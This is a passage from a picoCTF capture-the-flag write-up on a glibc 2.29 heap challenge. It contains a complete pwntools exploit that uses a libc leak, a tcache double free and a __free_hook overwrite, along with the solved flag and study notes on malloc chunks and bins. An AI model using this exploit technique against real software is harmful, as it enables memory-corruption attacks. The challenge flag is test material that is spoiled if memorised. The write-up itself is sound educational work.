  - Consumed a chunk that still had a pointer to the next chunk.
  - The next chunk requested, has `fd` pointing to `__free_hook` variable, after obtaining it through `malloc` wrote a pointer to the function `print_flag`.
  - Freed a random node and got flag.


The final script is:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chall
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/home/alex/Downloads/ctfs/curr_ctf/chall_remotelibc')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        #return process([exe.path] + argv, *a, **kw)
        return remote("fickle-tempest.picoctf.net", 54007)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
break *0x00400c33
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# RUNPATH:    b'./'

def create_chunk(size, content):
    io.sendline(b'1')
    io.recvuntil(b"What is the length of your description?")
    io.sendline(size)
    io.recvuntil(b"Enter your description:")
    io.sendline(content)

def remove_chunk(id):
    io.sendline(b'2')
    io.recvuntil(b"Which power would you like to remove?")
    io.sendline(id)

io = start()

# start program
io.sendline(b'y')
io.recvuntil(b"It's dangerous to go alone. Take this: ")
ptr = int(io.recv(14), 16)
print("Leaked ptr: " + hex(ptr))
base_address_libc = ptr - libc.symbols["system"]
free_hook_addr = base_address_libc + libc.symbols["__free_hook"]
print("__free_hook addr: " + hex(free_hook_addr))

# create chunks
create_chunk(b'264', b'A'*18)
create_chunk(b'264', b'B'*18)


# free chunks
remove_chunk(b'1')
remove_chunk(b'0')

# overwrite `size` of 2nd chunk
create_chunk(b'264', b'A'*264)

# double free
remove_chunk(b'1')

# fetch back 2nd chunk and create fake chunk with ptr to __free_hook
fake_chunk = p64(free_hook_addr)
create_chunk(b'264', fake_chunk)

# consume head
create_chunk(b'240', b'efewf')  # it doesn't matter what I write here

# Overwrite __free_hook variable with pointer to print_flag function
ptr_to_win = p64(0x00400a02)
create_chunk(b'240', ptr_to_win)

# Trigger __free_hook
remove_chunk(b'0')

io.interactive()
```

**Solution**


Flag: picoCTF{i_th0ught_2.29_f1x3d_d0ubl3_fr33?_493b22cc}


[back](/index)


**Resources**

- During this CTF I had to deepen my knowledge about how the heap works and as such had to research and read multiple documents regarding memory management. This are some of the resources I studied:
  - [Heap Exploits](https://ctf101.org/binary-exploitation/heap-exploitation/)
  - [Understanding glibc malloc](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)
  - [Malloc Source Code](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/malloc.c)
  - [tcache attack explanation](https://guyinatuxedo.github.io/29-tcache/tcache_explanation/index.html)
  - [Part 2: Understanding the GLIBC Heap Implementation](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)

#### Glossary

1. `arena` - contiguous region of heap memory
2. `main arena` - arena created by main thread. Uses syscall `sbrk`.
3. `top chunk` - top most chunk of an arena. 
4. `thread arena` - Heap memory for specific thread. Created using `mmap` syscall.
5. `Number of arenas` - number of arenas is dependant on CPU architecture x32/x64 and number of cores.
6. `malloc_chunk` - the chunk header. It lives before the chunk data, on a lower address.


#### Type of chunks

Notes from [Understanding glibc malloc](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/).

1. `Allocated Chunk`
  - `prev_size`, if previous chunk is free, field contains size of previous chunk. If allocated, field contains previous chunk user data.
  - `size`, field contains size of allocated chunk. Last 3 bits the flag info.
    - `PREV_INUSE`, bit is set when previous chunk is allocated.
    - `IS_MMAPPED`, bit is set when chunk is mmap'd.
    - `NON_MAIN_ARENA`, bit is set when chunk belongs to a thread arena.



- Fields like `fd` and `bk` are NOT used for allocated chunk. In place is the user data.


2. `Free Chunk`
  - `fd`, forward pointer, points to next chunk in same bin.
  - `bk`, points to previous chunk in same bin.



3. `Top chunk`
  - chunk is at the top border of an arena.
  - used when there is no free blocks in any of the bins.
  - if `top chunk` is greater than user requested size,  is split into two:
    - `user chunk`
    - `remainder chunk`, becomes the new `top chunk`.
  - if `top chunk` is less than user requestred, it is extended:
    - using `sbrk` for `main arena`.
    - using `mmap` for `thread arena`.

4. `last remainder chunk`.
  - remainder from the most recent split of a smaller size request.


#### Bins

- Bins hold free chunks, based on chunk size.

- Different type of bins:
  - `fast bin`
  - `unsorted bin`
  - `small bin`
  - `large bin`
  - `tcache` is not mentioned in this document.

- The datastructures used to hold bins:
  - `fastbinsY` array - holds fast bins
  - `bins` array - holds unsorted, small and large bins.
    - There are 126 bins.
      - bin 1, unsorted bin
      - bin 2 to 63, small bin
      - bin 64 to 126, large bin


1. `Fast bin`
  - chunks of size 16 to 80 bytes.
  - there are 10 `fast bins`.
  - they are single linked list of free chunks.
  - addition and deletion happens in LIFO order.
  - each `fast bin` hold chunks of increase 8 bytes... 1º 16 bytes, 2º 24 bytes...
  - no coalescing, 2 free chunks next to each other are not combined in a single chunk.


2. `Unsorted bin`
  - circular double linked list
  - no size restriction

3. `small bin`
  - chunks of size less than 512 bytes.
  - 62 number of bins.
  - circular double linked list
  - FIFO style

4. `large bin`
  - 63 bins
  - larger than 512 bytes
  - do coalesce
  - double linked list
  - added and removed at any position
  - sizes stored in decreasing order.


5. `tcache bin` (introduced glibc 2.26)
  - 64 tcache bins per thread
  - recently freed chunks
  - max 7 freed chunks per idx
  - increments 16 bytes from 24 to 1024 bytes
  - tcache bins dont coalesce 
  - LIFO operations
